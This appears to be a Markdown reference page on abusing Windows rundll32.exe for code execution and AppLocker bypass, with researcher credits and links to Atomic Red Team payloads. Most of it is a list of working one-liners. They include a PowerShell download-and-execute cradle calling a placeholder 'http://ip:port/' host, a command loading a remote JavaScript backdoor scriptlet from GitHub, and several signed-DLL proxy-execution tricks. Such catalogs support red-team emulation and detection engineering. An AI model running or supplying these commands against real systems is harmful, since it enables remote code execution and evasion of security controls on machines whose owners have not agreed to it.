 ## Rundll32.exe

* Functions: Execute

```
rundll32.exe AllTheThingsx64,EntryPoint    

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

rundll32 shell32.dll,Control_RunDLL payload.dll

rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,

rundll32.exe advpack.dll,RegisterOCX calc.exe

rundll32.exe zipfldr.dll,RouteTheCall calc.exe

rundll32.exe url.dll,OpenURL "C:\test\calc.hta"

rundll32.exe url.dll,OpenURL "C:\test\calc.url"

rundll32.exe url.dll, FileProtocolHandler calc.exe

rundll32.exe ieframe.dll,OpenURL "C:\test\calc.url"

rundll32.exe shdocvw.dll,OpenURL "C:\test\calc.url"

rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1,
```
  
Acknowledgements:
* Casey Smith - @subtee
* Jimmy - @bohops
* Moriarty - @Moriarty_Meng
* Adam - @hexacorn

Code sample:
* [AllTheThingsx64.dll](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/AllTheThings/AllTheThingsx64.dll)[1]     
* [AllTheThingsx86.dll](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/AllTheThings/AllTheThingsx86.dll)[1]     

Resources:
* https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/

Full path:
```
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

Notes:
[1]Code sample linked to Red Canary - Atomic Red Team


 
    
    